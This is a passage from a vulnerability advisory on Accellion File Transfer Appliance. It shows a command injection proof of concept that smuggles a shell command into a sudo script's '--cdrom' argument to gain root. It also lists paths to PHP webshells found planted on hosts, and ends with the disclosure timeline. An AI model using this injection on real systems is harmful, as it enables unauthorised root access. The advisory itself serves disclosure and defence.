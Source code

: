 After taking a closer look on `ymm-client.pl`, a Command Injection vulnerability was found on the parameter `--cdrom`. This vulnerability enables attackers to inject any commands into the parameter and execute as root.  

Thus, using the commands below
{% highlight bash %}
bash-3.2$ id
uid=99(nobody) gid=99(nobody) groups=99(nobody)

bash-3.2$ sudo /usr/local/bin/yum-client.pl --cdrom='$(id > /tmp/.gg)'

mount: can't find /mnt/cdrom in /etc/fstab or /etc/mtab
unable to mount: Bad file descriptor at /usr/local/bin/yum-client.pl line 113.

bash-3.2$ cat /tmp/.gg
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
{% endhighlight %}

will grant execution freely as root!  


### Backdoor

After gaining the highest privilege and carrying out server recon, we identified that several backdoors had been already planted in FTA hosts. One of them is an IRC Botnet which had been mentioned in Niara's [Accellion File Transfer Appliance Vulnerability](http://www.niara.com/docs/ta-accellion-fta-cve-2015-2857.pdf).  
Apart from that, two additional PHP Webshells of different types which had NEVER been noted in public reports were also identified. Through reviewing Apache Log, these backdoors might be placed by exploiting the CVE-2015-2857 vulnerability discovered in mid-2015.  

One of the backdoors is PHPSPY, it is found on 62 of the online hosts globally. It was placed in

> https://\<fta\>/courier/themes/templates/Redirector_Cache.php

The other is WSO, found on 9 of the online hosts globally, placed in

> https://\<fta\>/courier/themes/templates/imag.php



### Acknowledgement

The vulnerability mentioned in this Advisory was identified in early 2016 while looking for vulnerabilities in Facebook, you can refer to the article "[How I Hacked Facebook, and Found Someone's Backdoor Script](http://devco.re/blog/2016/04/21/how-I-hacked-facebook-and-found-someones-backdoor-script-eng-ver/)".  
Upon discovering the FTA vulnerability in early February, I notified Facebook and Accellion and both were very responsive. Accellion responded immediately, issuing patch FTA_9_12_40 on February 12th and notifying all affected customers about the vulnerability and instructions to install the patch. Accellion has been very communicative and cooperative throughout this process.  


### Timeline

* Feb  6, 2016 05:21 Contact Accellion for vulnerability report
* Feb  7, 2016 12:35 Send the report to Accellion Support Team
* Mar  3, 2016 03:03 Accellion Support Team notifies patch will be made in FTA_9_12_40
* May 10, 2016 15:18 Request Advisory submission approval and report the new discovery of two backdoors to Accellion
* Jun  6, 2016 10:20 Advisory finalized by mutual consent
